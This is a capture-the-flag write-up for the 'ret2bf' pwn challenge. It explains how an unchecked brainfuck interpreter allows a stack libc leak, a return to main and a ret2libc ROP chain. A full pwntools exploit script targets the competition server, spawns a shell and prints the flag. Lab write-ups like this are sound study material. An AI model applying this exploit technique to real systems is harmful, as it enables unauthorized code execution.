 https://ctftime.org/event/2512

# ret2bf (pwn)

I heard an interview with Tame Impala where he said, for a song to make an album, it has to have been, at some point, my favorite song ever. Well, there was at least one day when this one was my favorite CTF problem ever. -ProfNinja

nc 0.cloud.chals.io 31782 

## Analysis

We can see the program has essentially all mitigations enabled:

```
[*] '/Users/user/ctf/pwn/ret2bf/pwnme'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

`main` @ `0x1456`
- allocates a buffer on the heap
- reads data from `stdin` with `fgets`
- calls `bf`

`bf` @ `0x1249`
- Implements a brainfuck interpreter
- The program state is stored on the stack
- Does not perform any bounds checking when accessing the program state
    - This allows us to read/write anything on the stack relative to the program state
- I used `b *bf+241` extensively while testing the exploit as this is the location of the write operation

I got the correct version of libc using ret's libc command:

```
$ ret libc ubuntu:22.04
$ sha256sum libc.so.6
5955dead1a55f545cf9cf34a40b2eb65deb84ea503ac467a266d061073315fa7  libc.so.6
```

https://github.com/rerrorctf/ret?tab=readme-ov-file#-libc

## Solution

### Stage 1

Leak a pointer to libc from the stack so we can bypass ASLR and then ret2main.

1) Use `b">" * 120` to set `pc` to a libc return address on the stack
2) Use `b".>" * 8` to read 8 bytes from the stack
3) Use `b"<" * 40` to set `pc` to this function's return address on the stack
4) Use `,` to write the lowest byte to be equal an offset in main
5) Use `-` to decrement the 2nd byte ( e.g from 0x15 to 0x14 ) to preserve the upper nibble's ASLR value but set the lower nibble to match the location in main we want to return to
6) Jump back into main so that we can submit another brainfuck program with knowledge of libc's ASLR base

### Stage 2

Now we know the ASLR base of libc we can perform ret2lib with our control of the stack.

1) Use `b">" * 88` to set `pc` to this function's return address on the stack
2) Use  `b",>" * len(ropchain)` to have the program read our ropchain from stdin and write it to the stack
    - You have some flexibility here, I went with a very reliable `syscall` based approach but there may also be a valid `one_gadget` for something a bit more simple for example
3) Upon exit ret2libc

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./pwnme", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="b bf") # +241
p = remote("0.cloud.chals.io", 31782)

payload = b""
payload += b">" * 120
payload += b".>" * 8
payload += b"<" * 40
payload += b",>-" # use this to return to main
p.sendlineafter(b">", payload)

leak = b""
for i in range(8):
    leak = leak + p.recv(1)
leak = u64(leak)

libc.address = leak - 0x29d90
log.success(f"libc.address {hex(libc.address)}")

p.send(b"\xbc") # last byte of main for ret2main

rop = ROP(libc)
rop.rsi = 0
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.rdx = 0
rop.rax = constants.SYS_execve
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])
ropchain = rop.chain()

payload = b""
payload += b">" * 88
payload += b",>" * len(ropchain)  # use this to return to libc
p.sendlineafter(b">", payload)

p.send(ropchain)

p.interactive() # udctf{I_b3t_th4t_f3lt_s0_g00d}
```

## Flag
`udctf{I_b3t_th4t_f3lt_s0_g00d}`

smiley 2024/11/10

